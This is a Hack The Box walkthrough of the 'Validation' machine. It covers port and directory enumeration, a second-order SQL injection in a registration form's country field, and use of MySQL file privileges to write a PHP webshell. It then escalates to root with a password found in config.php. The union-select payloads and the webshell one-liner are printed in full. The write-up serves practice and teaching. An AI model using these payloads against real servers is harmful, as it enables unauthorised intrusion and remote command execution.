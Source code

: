 ```yaml
---
title: "[HTB] Machine: Validation"
description: "[HTB] Machine: Validation"
date: 2023-08-08
menu:
  sidebar:
    name: "[HTB] Machine: Validation"
    identifier: htb-machine-Validation
    parent: htb-machines-linux
    weight: 10
hero: images/validation.png
tags: ["HTB", "cookies", "sqli injection", "second-order-sqli", "sqli-file", "webshell"]
---
```


# Validation
## Enumeration
- `nmap`
```
└─$ nmap -p- -Pn 10.10.11.116 -T4    
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-10 17:09 BST
Nmap scan report for 10.10.11.116 (10.10.11.116)
Host is up (0.14s latency).
Not shown: 65522 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
4566/tcp open     kwtc
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
5005/tcp filtered avt-profile-2
5006/tcp filtered wsm-server
5007/tcp filtered wsm-server-ssl
5008/tcp filtered synapsis-edge
8080/tcp open     http-proxy

Nmap done: 1 IP address (1 host up) scanned in 583.51 seconds
```
```
└─$ nmap -sC -sV -Pn -p22,80,4566,8080 10.10.11.116 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-10 17:23 BST
Nmap scan report for 10.10.11.116 (10.10.11.116)
Host is up (0.12s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.96 seconds

```
- `gobuster`
```
└─$ gobuster dir -u http://10.10.11.116/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.116/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
2023/08/10 17:38:19 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 16088]
/account.php          (Status: 200) [Size: 16]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.116/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.116/js/]
/config.php           (Status: 200) [Size: 0]

```

- Web Server

![](./images/1.png)
## Foothold/User
- When we fill in the form, we get the following result

![](./images/2.png)

![](./images/3.png)

- Let's start with `SQLI`
  - No issues with `Test123'`
  - But when I tried special chars with `country` params, the backend issued error
    - Looks like second-order `SQLI`  - `Second-order SQL injection arises when user-supplied data is stored by the application and later incorporated into SQL queries in an unsafe way.`
    - https://portswigger.net/kb/issues/00100210_sql-injection-second-order
    - https://offensive360.com/second-order-sql-injection-attack/
  - By the way, we have to use the `cookie` that's being sent to us to see the error
    - It's `md5` hash of the username we registered

![](./images/4.png)

- I played around with different payloads and had success with
  - `username=TEST&country=USA' union select 1;-- -`

![](./images/5.png)

![](./images/6.png)

- The query `username=TEST&country=USA' union select user();-- -` resulted in

![](./images/7.png)

- Since now we can execute different queries, let's enumerate
  - `username=TEST&country=USA' union select database();-- -` - `registration`
  - `username=TEST&country=USA' union select column_name from information_schema.columns where table_name = 'registration'` - shows `username`, `userhash`, `country`, `regtime`
    - No entries with password
  - If we execute `username=TEST&country=USA' union select privilege_type FROM information_schema.user_privileges where grantee = "'uhc'@'localhost'";-- -`, we have `FILE` privileges
    - We can create a `File` 
    - https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#mysql-commands
  - Let's test it
  - `username=TEST&country=USA' union select "PENTEST!!!" into outfile '/var/www/html/PENTEST.txt';-- -`
  - Don't forget to visit `account.php` with the cookie that was sent back

![](./images/8.png)

- Let's create `webshell`
  - `username=TEST&country=USA' union select "<?php SYSTEM($_REQUEST['cmd']); ?>" into outfile '/var/www/html/cmd.php';-- -`

![](./images/9.png)

- Reverse shell

![](./images/10.png)

- I didn't know that there is another way of upgrading shell
  - `script /dev/null -c bash`
  - The rest is the same

## Root
- Enumeration resulted in `config.php` file

![](./images/11.png)

- Let's try `su -`
  - Rooted

![](./images/12.png)
